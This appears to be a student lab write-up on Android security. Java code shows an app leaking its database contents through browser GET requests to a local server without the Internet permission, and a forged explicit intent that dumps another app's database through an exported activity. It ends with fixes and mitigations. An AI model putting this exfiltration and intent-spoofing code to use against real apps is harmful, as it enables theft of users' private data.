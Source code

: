 # 1 - No-permission apps

In this part, we will exfiltrate some data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

Then, we populate the database on the app:

![Database content](./assets/database_content_p1.png)

When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?secret1=abc&secret2=def`.

In our example, the server received this:

![Server request](./assets/server_request_p1.png)

This data is accessible by the app because it is its own data, and thus
does not break sandboxing. It would be quite different for other kind
of data though, since file system access require specific permissions
and user interaction, and other apps database content are protected from
access by other app thanks to sandboxing. It should however not be
possible to send this data to a webserver through internet, since the
app doesn't use the Internet permission, but by using a third-party app
we can manage to exfiltrate this data. This kind of situation correspond
to a confused deputy problem.

On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop all applications are
unrestricted and could access all user files with r/w permissions, on
android even a vulnerable app is limited in its action. it also hints on
illegitimate apps; for examle, the flashlight app shouldn't require
microphone access. The goal of these permissions is to add boundaries to
apps, which greatly reduce the risks to the user.

Permissions are defined in a special file, the Android manifest of the
app. This file will describe all meta-informations about the app, like
which activities are public, what resources the app should use for its
icon, and more important here what permissions are used. In the
following example, an app is requiring the internet permission. Some
permissions aren't necessarily granted though, like the microphone one.
While it needs to be declared, the user can still decide to disable it.

```xml
<uses-permission android:name="android.permission.INTERNET" />
```

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

The code used is the following one:

```java
// This will be our URL like http://10.0.2.2:3001/?secret1=abc&secret2=def
StringBuilder evilRequest = new StringBuilder("/?");
for (Item item : mItemsData) {
	// Add each item to the exfiltration URL
	evilRequest
		.append(Uri.encode(item.getTitle()))
		.append("=")
		.append(Uri.encode(item.getInfo()))
		.append("&");
}
// Create the intent to open the browser
Intent intent = new Intent(
	Intent.ACTION_VIEW,
	Uri.parse(url + evilRequest)
);
if (intent.resolveActivity(getPackageManager()) != null) {
	// Start the intent if an an app is able to handle it
	startActivity(intent);
}
```

# 2 - Malicious intents

In the MACLocation app, the `DatabaseActivity.onCreate` method will, as
its name suggests, create the app. It will look at the caller intent and
act differently depending on its action. Here, if the field
`"ITEM_ACTION"` is set to `"GET_ITEMS_ACTION"`, it will retrieve all
database content and send it back to the caller.

The problem is that if a third-party app opens this activity with the
right action, the activity won't check which app the intent is coming
from and will exfiltrate all its database to the external app through
the result intent.

The malicious intent code is the following one:

```java
// Activity intent
Intent i = new Intent(Intent.ACTION_MAIN);
// Explicitely set the component that will receive the intent
i.setComponent(new ComponentName(
	"lbs.lab.maclocation", // Target package
	"lbs.lab.maclocation.DatabaseActivity" // Target activity
));
// MIME data type, equal to `DatabaseActivity.class.getCanonicalName()`
//  Used to trick the DatabaseActivity condition
i.setType("lbs.lab.maclocation.DatabaseActivity");
// Action, here fetch all data, but could also be SET_ITEMS_ACTION to
//  override the database content
i.putExtra(ITEM_ACTION, GET_ITEMS_ACTION);
```

Once the data retrieved, we need to deserialize it by creating our own
implementation of `lbs.lab.maclocation.Item`, and then exfiltrate it
like we did previously in the first part. To find which class to
recreate, we need to look at the logs when trying to deserialize the
object. We get a `ClassNotFoundException` that will then hint us on
which class isn't found, by logging something like `the class
lbs.lab.maclocation.Item cannot be found`. We now know which class we
need to write.

There are currently a few checks in `DatabaseActivity`:
- The MIME data type should be set to
`"lbs.lab.maclocation.DatabaseActivity"`, which is easy to set
- The `"ITEM_ACTION"` field should be set to `"GET_ITEMS_ACTION"`, again
we could guess it using the source code or a decompiler
- The caller activity should be named `MainActivity`, easy to spoof

This last check is the one which should be changed in order to fix this
vulnerability. Instead of checking the value of `getShortClassName()` to
compare the activity names, it should use `getClassName()`, that will
differentiate `lbs.lab.maclocation.MainActivity` and
`lbs.lab.macintent.MainActivity`.

Moreover, in the Android manifest, `DatabaseActivity` is wrongly marked
as `exported`, which makes it accessible to any third-party app through
an intent.

# 3 - Protections and mitigations

There could be several ways to protect against these threats, on several
levels.

On a more general note though, explicit intents should be avoided and
should even maybe be completely discarded. Apps should pass through an
app chooser and not hardwire the target in the source code, which is
error prone and can lead to several attacks like we saw previously.

For both parts, a more general solution could be the transition to a
capability-based kernel, where the capability / key is an unforgeable
token of authority refering to a list of rights and permissions. These
confused deputy problems would then be no more, sicne if an app A calls
an app B, B would use A's token and then the operation would be refused
at the kernel level, while currently A uses B's identity to do some
actions.

## 3.1 - Against permission escape: part 1

First, the Android API could implement permissions per intent, not per
app. If an app A calls an app B, and B has the internet permission but
not A, A is still able to access internet through B. However, a defense
would be for the intent from A to B to require some kind of permission,
which would force A to declare the internet permission. This would still
be pretty challenging though, as we need to be sure which permissions
are used, otherwise if B suddently adds the camera permission it would
break A even though it doesn't use it.

The solution above could also be completed using a stacktrace of chained
events, to avoid the confused app B to send a third intent that will
look legitimate for the third (or same) app.

## 3.2 - Against data leak: part 2

A way to avoid data leak would be to somehow track the data from B to A.
If the data of B is leaked back to A without a kind of approval, then
the data would be made unusable by the system. This is still a rough
idea though, as this would probably lead to many challenge to face.

Maybe we could also rank the data importance, like the information flow
security lectures we had. A high (important) app would only be able to
share its data to other high apps, and low apps would not be able to
fetch this high data. Or, to continue with data tracking, low apps could
be allowed as long as there isn't an information flow from high data to
low data, ie the data use would be severely restricted. This is an
interesting research topic, although currently there are no official
support from Android. Still, some tools exist in "regular" Java, like
Jif, or in other languages (JSFlow, LIO, etc), so an official
implementation could come at some point with enough push from the
community. The best implementation would probably to implement this at
the kernel level, directly using memory mapping.

Related to this suggestion, critical informations related to banking or
health for example should probably be locked behind a password, such
that any legitimate intent would have this token in memory while
external explicit intents wouldn't be able to unlock the data. It goes
without saying that critical activities should also not be publicly
exposed in the Android manifest. This is technically a recommandation,
and cannot realistically be made mandatory by the platform, since it
would be pretty hard to differentiate critical and legit information
programmatically.

Intents could also use a kind of signature, to avoid spoofing its
origin. This is already something that can - and should - be done, but
the Android kernel should go even further. What we saw earlier is that
to deserialize the data fetched we needed to create our own
implementation of the data object. This shouldn't be allowed, and a
serialized object should only be deserializable by the implementation
in its own app, not by any third-party app, even if the implementation
is the same.
